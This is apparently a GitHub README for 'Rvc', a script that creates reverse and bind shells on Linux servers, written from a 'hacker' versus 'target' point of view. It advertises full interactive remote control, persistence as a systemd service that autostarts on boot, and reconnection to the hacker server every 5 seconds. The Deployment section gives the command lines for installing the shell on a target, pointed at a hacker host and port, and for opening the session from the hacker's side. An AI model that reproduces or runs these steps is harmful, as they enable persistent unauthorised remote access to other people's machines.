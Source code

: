 # Rvc Reverse and Bind shell

A script for creating a reverse and bind shell tunnel for linux servers 
Not actual rsh that uses RCE for injecting the vulnerability.

Reverse Shell:
![demo image0](demo-rsh.jpg)

Bind Shell:
![demo image1](demo-bsh.jpg)

## Features

1) Complete control of remote shell including ctrl+.. signals.
2) Supports interaction with text editors like nano, vim, emacs on remote shell as well !!
3) Auto tab completion supported.
4) Ansi color output and characters supported.
5) Dynamic communiation with the launched command.
6) Install and uninstall as a systemd service on target with autostart on boot.
7) Target RSH client always tries every 5 seconds to reconnect to the hacker server.
8) Less bandwidth consumption and never hangs up.

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes. See deployment for notes on how to deploy the project on a live system.

### Prerequisites

This script was tested on Ubuntu 18.04 LTS and Kali Linux 2019.3
However this script needs some basic bash primitives in a normal linux distribution.

Server side:: Target side
1) bash
2) python (2 or 3)
3) stty (for setting terminal window)
4) systemctl service support (for installation and autostart)

Client side:: Hacker side 
1) bash
2) python (2 or 3)
3) stty (for getting hacker terminal sizes)
4) awk interpreter and hostname utility

## Deployment

The following steps will guide you setting up a Reverse Shell between two pcs in same network

to set the reverse shell to connect to the hacker ip address.

1) Copy this file on Target pc and either install (run as root) or expose its terminal to hacker pc. Run
```
./rvc-rsh install (hacker hostname) (port no)
or
./rvc-rsh expose  (hacker hostname) (port no)

for bsh

./rvc-bsh install (target hostname) (port no)
or
./rvc-bsh expose  (target hostname) (port no)


uninstall on target:
./rvc-rsh uninstall
or 
./rvc-bsh uninstall
```
Give the hostname and port no. to open a connection.
Just remember for now the script supports only one rsh client install per target pc if you want to.

2) on hacker terminal to open a client bearing (hacker hostname) and (port no) run
```
./rvc-rsh open (hacker hostname) (port no)
for bsh
./rvc-bsh open (target hostname) (port no)
```
This will establish a TCP connection between the hacker and the target shells
And MAGIC !! you will entirely get the remote console with all above mentioned features !!

## Author

* **Rajas Chavadekar** 

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details

